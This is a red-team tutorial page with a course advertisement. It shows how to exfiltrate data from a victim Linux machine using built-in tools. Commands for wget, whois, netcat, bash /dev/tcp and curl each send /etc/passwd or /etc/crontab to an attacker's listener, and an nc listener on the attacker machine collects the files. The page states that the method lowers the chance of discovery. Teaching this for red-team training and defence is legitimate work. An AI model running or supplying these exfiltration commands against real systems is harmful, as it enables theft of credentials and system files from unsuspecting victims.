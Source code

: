 :orphan:
(data-exfiltration-with-the-help-of-linux-binaries)=
# Data Exfiltration with the Help of Linux Binaries
 
Data exfiltration is theft or unauthorized removal or movement of data from a device. Data exfiltration is a means of bypassing security and gaining unauthorized access to data on a user's system or a server. Attackers gain unauthorized access to critical data and sneakily make a copy of it. Data exfiltration can be carried out in a variety of ways, with the primary goal of stealing data.

Linux binaries are file on a Linux system that isn't a text file, which includes everything from system commands and libraries to image files and compiled programs. `/bin` directory contains binaries for all the users and it also has executable files, and Linux commands such as cat, cp, ls, cd, etc. 
For the demonstration purpose, we will use two systems to exfiltrate data, one posing as an attacker and the other as a victim.

## Wget 

wget is a free application for non-interactively downloading files from a web server, even if the user is not logged in to the system.

Wget get can be used to upload a file and send it to the attacker machine over ``HTTP POST``. 
On the victim machine, send a local file with an ``HTTP POST``. 
`wget --post-file=<file-path-> <ip_address>`

![DE_1.png](images/DE_1.png)

On the attacker machine, to get the file, Netcat is used as a listener, 
`nc -nlvp 80 `
`Note: to open up port 80 you would need higher privileges`

![DE_2.png](images/DE_2.png)

From the above screenshot, the data exfiltration was successful and the contents of the `/etc/crontab` can be seen on the attacker machine.

## Whois 

Whois is the request and response protocol that is commonly used for querying databases containing the registered users of an Internet resource such as domain name or IP address.
Whois binary can be used to upload a file and send it to the attacker's machine over a TCP connection. 

On the victim machine, enter the file to upload, the victim's IP address, and the remote port for file transfer. 
```
whois -h <remote_IP_address> -p <remote_port> `cat  /etc/passwd`
-h connect to server
-p connect to port 
```
![DE_3.png](images/DE_3.png)

On the attacker machine, to get the file, Netcat is used as a listener, 
`nc -nlvp 1337 `

![DE_4.png](images/DE_4.png)

Data exfiltration is successful, the contents of the file /etc/passwd with all the users can be seen on the attacker's machine

## Netcat 

netcat is a computer networking program that allows you to read and write to network connections through TCP or UDP. 

On the victim’s machine set up the netcat by specifying the IP address and port and file to be sent. 
`Nc -N <IP_address> < <file path >`

![DE_5.png](images/DE_5.png)

On the attacker's machine set up the netcat to listen for the file by specifying the port to listen on. 

`Nc -lvp 1337 > <file_to_be_sent>`

![DE_6.png](images/DE_6.png)

## Bash 

It is a command language and Unix shell. bash binary can be used to upload files invisibly and deliver the file to the attacker system via `HTTP POST`.

On the victim machine, the following `bash -c` command can be used for data exfiltration. 
`bash -c 'echo -e "POST / HTTP/0.9\n\n$(</etc/passwd)" > /dev/tcp/<listener_IP>/<listener_port>’`

![DE_7.png](images/DE_7.png)

On the attacker machine, parrot Linux is used that uses netcat for listening for the connection. 

![DE_8.png](images/DE_8.png)

From the above screenshot, the data exfiltration was successful and the contents of the `/etc/passwd` can be seen on the attacker machine.

## Curl 

curl is a command-line utility that allows data to be transferred across many network protocols. The curl binary can be used to upload a file and deliver it to the attacker's system over an `HTTP POST` connection. 
On the victim machine, the following curl command can be used to exfiltrate the data. 
```
curl -F 'file=@/etc/passwd' http://<attacker_ip:attacker_port>/

curl -F is an argument that allows binary file uploading and forces the content type to be a multipart message. 
```
![DE_9.png](images/DE_9.png)

On the attacker machine, parrot Linux is used that uses netcat for listening for the connection on port 80. 

![DE_10.png](images/DE_10.png)

From the above screenshot, the data exfiltration was successful and the contents of the `/etc/crontab` can be seen on the attacker machine.

## Conclusion: 

Data exfiltration is a key step for a red teamer or attacker, and knowing how to use Linux binaries for data exfiltration can enable you transfer data with less possibility of discovery and without the need to install any external tools for data exfiltration.

> **Looking to expand your knowledge of red teaming? Check out our online course, [MRT - Certified Red Teamer](https://www.mosse-institute.com/certifications/mrt-certified-red-teamer.html). In this course, you'll learn about the different aspects of red teaming and how to put them into practice.**